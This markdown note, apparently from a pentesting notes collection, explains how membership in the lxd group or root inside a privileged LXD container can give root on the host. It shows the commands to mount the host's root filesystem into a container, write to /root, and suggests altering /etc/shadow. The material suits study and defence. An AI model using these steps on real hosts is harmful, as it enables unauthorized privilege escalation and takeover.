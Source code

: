 ## LXD

## Privileged Containers

All bets are off with privileged containers, to test out creating one we want to do the following

```bash
sudo su
lxc launch ubuntu:16.04 --security.privileged=true
lxc exec <name> bash
useradd tecmint
passwd tecmint
mkdir /home/tecmint
chown tecmint:tecmint /home/tecmint
usermod -a -G lxd tecmint
su tecmint
```

If you have either root privileges within a privileged container, or are a member of the lxd group, you can easily get root access on the host.  To do this, you'll have to mount the root directory under a container.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

Here we see us creating a file within the /root/ directory under the mountpoint as shown.

```bash
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit
```

And so we see that the file has been created within our root directory.

```bash
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#
```

This can be used quite trivially for container escape, as mounting the root directory in a nested container will mount the hosts container as all lxd commands run on the host.  While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

References:

[https://linuxcontainers.org/lxc/getting-started/](https://linuxcontainers.org/lxc/getting-started/)

[https://github.com/lxc/lxd/issues/2003](https://github.com/lxc/lxd/issues/2003)

[https://reboare.github.io/lxd/lxd-escape.html](https://reboare.github.io/lxd/lxd-escape.html)

[https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/](https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/)

